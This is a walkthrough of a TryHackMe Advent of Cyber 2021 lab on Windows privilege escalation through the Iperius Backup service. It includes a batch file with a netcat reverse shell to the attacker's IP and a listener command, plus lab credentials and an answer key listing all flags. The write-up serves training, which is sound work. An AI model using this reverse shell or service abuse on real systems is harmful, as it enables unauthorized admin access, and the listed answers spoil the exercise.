# TryHackMe - Advent of Cyber 2021 - Day 13
## The Lost the Plan! (Networking)
> Edward Hartmann
> December 29, 2021

***<u>Refs/Links:</u>***
- [Advent of Cyber 2021 TOC](Advent%20of%20Cyber%20Table%20of%20Contents.md)  
-  Tags[^1]
-  Flag[^2]

[^1]: #privsec #windows 
[^2]: *Question 1:* `pepper`  
					*Question 2:* `10.0.17763 N/A Build 17763`  
					*Question 3:* `IperiusSvc`  
					*Question 4:* `C:\Program Files (x86)\Iperius Backup\IperiusService.exe`  
					*Question 5:* `thegrinch`  
					*Question 6:* `the-grinch-hack\thegrinch`  
					*Question 7:* `THM-736635221`  
					*Question 8:* `jazzercize`  

## TOC
- [Question 1](#Question-1)
- [Question 2](#Question-2)
- [Questions 3-4](#Questions-3-4)
- [Questions 5-6](#Questions-5-6)

## Walkthrough
In this box, we are told that the disaster recovery plan, that was locked down to protect its security and confidentiality, has become inaccessible due to a decrease in privileges of McSkidy's account due to Grinch's shenanigans. Can we escalate the privileges back and save the disaster recovery plan?

To start, either use the Attack Box or RDP into the system with the `xfreerdp` utility:

```
xfreerdp /u:mcskidy /p:Password1 /v:<TARGET_IP>
```

The information included in the TryHackMe walkthrough is summarized in the [Windows Privsec](../../../../Knowledge%20Base/Vulnerabilities/Privilege%20Escalation%20(privsec).md#Windows) section of this note. 
### Privesc
[Top](#TOC)

We are told first that the *Iperius Backup Service* offers a  potential [Privilege Escalation (privsec)](../../../../Knowledge%20Base/Vulnerabilities/Privilege%20Escalation%20(privsec).md#Windows) vector due to its potential to run backup tasks with admin privileges despite the local users privilege level. Open the search bar at the bottom of the screen and search `Iperius` and launch the application. 

Start a new backup task by clicking the left-most icon on the menu bar and configure as follows. 



#### Source

In the `Items` tab on this screen select the file icon with a `+` sign and set the path to `C:\Users\McSkidy\Desktop` and click `OK`. 



#### Destination

On the `Destinations` tab, select the same folder icon and make the destination the `Documents` folder. 



#### Executable

Here comes the exploit. In the `Other Processes` tab, we can choose to run a program before the backup executes, and it will be ran as administrator. If this file is malicious, the attacker can successfully escalate privileges. 

We are instructed to utilize a `.bat`, which stands for `Batch`, a basic executable in windows similar to `.sh` in *UNIX* systems. This `.bat` file will use another file located in `C:\Users\McSkidy\Downloads\nc.exe`. Launch *notepad* and add the following code. 

```
@echo off 

C:\Users\McSkidy\Downloads\nc.exe <HOST_MACHINE_IP> 1337 -e cmd.exe
```

> You find the attacking IP by running `ip a` and using `eth0` for the Attack Box or `tun0` if you are on a VPN. 



Save the file as `evil.bat` on the `Desktop`. Notice the little gear icon in the filename? Windows is telling you this is executable. 

What is happening? This file is calling the `Ncat` utility in our `Downloads` folder, a common tool used by attackers to create a reverse shell. Our code is telling `nc` to connect to our attacking machine IP on port `1337` and run a program with `-e`. The program we want ran is `cmd.exe`, the command prompt in Windows. 

#### Staging

On your host, prepare a `nc` listener. The great thing about `nc` is that we can connect `nc` to `nc` using a different set of flags. Run this on your host (the attacking host):

`nc -lvnp 1337`

This is listening, providing verbose output, not resolving domain names, and doing all of it on port `1337`. 



Let's verify the payload works first. Double click `evil.bat` to run it and check back on your listening host, you should see a shell. Type `whoami` to confirm you are `mcskidy`. We have not escalated privileges yet, but this confirms that the payload works. Disconnect with <kbd>ctrl</kbd>+<kbd>c</kbd>



Great! That payload works, now we just need to run it as an administrator using *Iperius*

#### Exploiting
Now we are ready to stage the exploit. Choose `evil.bat` to run on the `Other processes` tab before the backup. 



Click `Next`, give the job a name. Restart your listener on the attack box! 

On the main screen, right-click your Evil Backup and select `Run backup as service`. Notice that it is running as the admin user.

> User obscured to save the flag, try harder!



If successful, after about a minute you should get a shell on your listener, and typing `whoami` will return 



Bingo! We have an admin shell on the machine. 
### Question-1
[Top](#TOC)
Now that we have a shell as admin, it is time to gather some information. 

The first question is asking for a username. The command `net users` should give is this info. 



### Question-2
[Top](#TOC)

How about the OS Version? `systeminfo` will tell us about the machine we are on. We can use the command from the guide in the beginning for some cleaner output. 

```
systeminfo | findstr /B /C:"OS Version"
```



### Questions-3-4
[Top](#TOC)

For questions about the services that are running, we want `wmic service list`. But we have a problem...there is a **huge** list of services. Part of learning to use commands is learning the power of those commands. With a little research (such as [here](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)) you can learn more about the `findstr` command used earlier to find the `OS Name` and `OS Version` and modify it to our needs. 

With `findstr`, we can ignore the case of the string we are searching for with `/i` and use a `regex` search by adding the `/r` flag. The regex we want is `.backup.`. Each `.` stands for a *wildcard* character, meaning all the line needs to contain is `backup` and it will return in the output. 

>Learn more about the `/B` and `/C`commands at the link as well!

It may take a few entries for this question to get the right one because Windows returns notoriously long output...but you'll find it here. 



You can also identify the path to the service in this image...look closely. 

### Question-4
[Top](#TOC)

Simply type the command `whoami` to identify the user you are currently accessing the machine with. 


### Questions-5-6
[Top](#TOC)

Finally, we need to find the contents of `flag.txt` and identify information about The Grinch's schedule.  You can find the files in the `Documents` directory of `thegrinch`. Use `cd` and `dirs` to change directories and list the files. The windows CLI command `type` will list the contents of the file for us once you are in the correct directory. Use the following commands. 

```
type flag.txt

type Schedule.txt
```



And there you have it!

***Congratulations on completing this box!***  

See you at the next one &mdash; [Advent of Cyber 3 Day 14](Day%2014%20-%20Advent%20of%20Cyber%202021.md)
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
